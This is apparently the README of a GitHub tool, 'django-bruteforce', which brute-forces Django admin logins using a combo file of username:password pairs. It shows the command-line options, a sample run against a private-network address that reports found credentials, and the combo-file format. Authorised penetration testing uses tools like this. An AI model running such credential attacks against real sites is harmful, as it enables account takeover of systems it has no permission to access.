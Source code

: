 # django-bruteforce
Django Control Panel Bruteforce tool.


```
usage: django-bf.py [-h] -u URL [-f FILE] [-p PROXY] [-au AURL]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Django Admin URL
  -f FILE, --file FILE  Combo file
  -p PROXY, --proxy PROXY
                        Proxy for debugging
  -au AURL, --aurl AURL
                        Default /admin/login/
```

Example usage
---

```
python3 django-bf.py -u http://192.168.1.130:8081 -f test.txt -au /admin/login/
[*] Token:MRLQSL6PDQveXw1k3L9BSZfCAYO2vEpONxnuv3cd3LeOy3C2TlIUB9utppi1G298 [*]
[-] Failed to login with user: admin [-]
[*] Token:YPkI8Zj2q6txyBCFbI4Tan5fMaa6NcAYZvWmLhpqQ1c798dn1iDcTxk6BBE5YAki [*]
[-] Failed to login with user: asdadsadssa [-]
[*] Token:tA9R0Taw1efBAkaitHwjD5POR7Qq9BxfugLvDbgUr9YbbRL0jh5Cmf4FGykpkZhz [*]
[-] Failed to login with user: 132123 [-]
[*] Token:GVCXFxa5bgCH9FlNvBUNaBsFmqgN149nHBeBiPgtBblhKcWvlbt6TLHwbRKMcsTH [*]


********** Login Found **********
Django URL: http://192.168.1.130:8081/admin/login/
Django Username: test
Django Password: test
*********************************
```


Combo File
---

Example combo file comes with this as test.txt

it must be formatted like so.

```
admin:admin
test:test
django:django
```
